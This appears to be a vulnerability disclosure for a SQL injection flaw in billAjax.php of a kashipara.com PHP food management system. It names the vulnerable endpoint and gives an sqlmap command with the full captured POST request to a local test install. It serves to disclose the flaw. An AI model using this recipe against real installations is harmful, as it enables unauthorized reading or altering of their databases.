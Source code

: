  Food Management System SQL Injection Vulnerability 
 Vulnerability Description: SQL Injection Vulnerability in Foreground of Food Management System 
 Manufacturer Information: www.kashipara.com/ 
 Affected Version: 1.0 
 Environment: 
 https://www.kashipara.com/project/download/project2/user/2023/202312/kashipara.com_chopstic1-zip.zip 

![img](https://cdn-images-1.medium.com/max/900/1*OVHZZxD7vpNXrFgeB8IeJw.png)

 Code Analysis: 
 Code in D:\phpstudy_pro\WWW\chopstic1\billAjax.php 

![img](https://cdn-images-1.medium.com/max/900/1*SH3K0ckF2xBjJl3eRgOeGA.png)

 The $post array contains data passed from the client without any validation, cleanup, or escape processing.  An attack can construct malicious input to inject arbitrary SQL statements and perform unauthorize actions. 

 SQLmap： 

![img](https://cdn-images-1.medium.com/max/900/1*dq-5azLyclaEms0ZSHPrtg.png)

 SQLMAP command: 
 python sqlmap.py -r 2.txt --dbms=mysql 
 Complete data package: 

```shell
POST /chopstic1/billAjax.php HTTP/1.1
Host: localhost
Content-Length: 333
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/chopstic1/ItemDetails.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: USER_NAME_COOKIE=admin; SID_1=aa141d36; mailpoet_page_view=%7B%22timestamp%22%3A1694409700%7D; mailpoet_subscriber=%7B%22subscriber_id%22%3A2%7D; _ga=GA1.1.324136046.1702458922; Hm_lvt_6a3c7d9bb52a48ffadde32007d2a259e=1702459185; _pk_id.1.1fff=4343a030b8a53617.1702459185.; PHPSESSID=l7gqshcet6f2d84e2r3ae4a5tj
Connection: close

custmer_details=1&price_type=item_price_retl&chk_in_date=03-01-2024&transpotation_name=&totalAmount=0&itemype%5B%5D=5&item_name%5B%5D=39&item_price%5B%5D=0&initialprice%5B%5D=0&itemnumber%5B%5D=1asd&itemype%5B%5D=6&item_name%5B%5D=43&item_price%5B%5D=0&initialprice%5B%5D=0&itemnumber%5B%5D=1aas&pay_cost=asasas&subButton=Place+Order
```

